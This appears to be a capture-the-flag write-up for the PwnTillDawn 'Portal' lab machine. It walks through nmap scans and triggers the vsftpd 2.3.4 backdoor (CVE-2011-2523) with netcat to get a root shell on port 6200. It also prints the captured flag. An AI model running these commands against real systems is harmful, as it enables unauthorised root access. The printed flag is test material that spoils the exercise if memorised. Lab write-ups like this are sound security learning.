







## 🛡️ PwnTillDawn - Portal Machine

---

## 📌 Target Information
- Target IP: 10.150.150.12  
- Operating System: Linux  
- Difficulty: Easy  

---

## ⚙️ Tools Used
- Nmap
- Netcat (nc)
- OpenVPN

---

## 🔍 Phase 1: Reconnaissance

Scan network to identify active hosts:

```bash
nmap -sn 10.150.150.0/24
```
Result:
- Multiple hosts found
- Selected target: 10.150.150.12



## 🔍 Phase 2: Enumeration

Scan for open ports and services:

```bash
nmap -Pn -F -sV 10.150.150.12
```
Result:
- 21/tcp → FTP
- 22/tcp → SSH


## ⚠️ Phase 3: Vulnerability Analysis

Check FTP vulnerability:

```bash
nmap -Pn -p21 --script ftp-vsftpd-backdoor 10.150.150.12
```
Result:
- Vulnerable to vsftpd 2.3.4 backdoor
- CVE-2011-2523


## 💥 Phase 4: Exploitation

Trigger FTP backdoor:

```bash
nc -nv 10.150.150.12.21
USER test:)
PASS test
```

Connect to shell:

```bash
nc -nv 10.150.150.12 6200
```

Check access:

```bash
id
```
Result:
- Root access obtained



## 🏁 Phase 5: Flag Retrieval

Retrieve flag:

```bash
cat /root/FLAG1.txt
```

Flag1:

```bash
5ee499eb5d0b8e4269b13483e57adaa0b3815f48
```


## 🎯 Phase 6: Flag Submission

Submit flag in PwnTillDawn platform.

Result:
- Flag accepted
- Achivement unloacked


## ✅ Conclusion

- Successfully exploited FTP backdoor vulnerability
- Gained root access
- Retrieved and submitted flag

## Status: COMPLETED
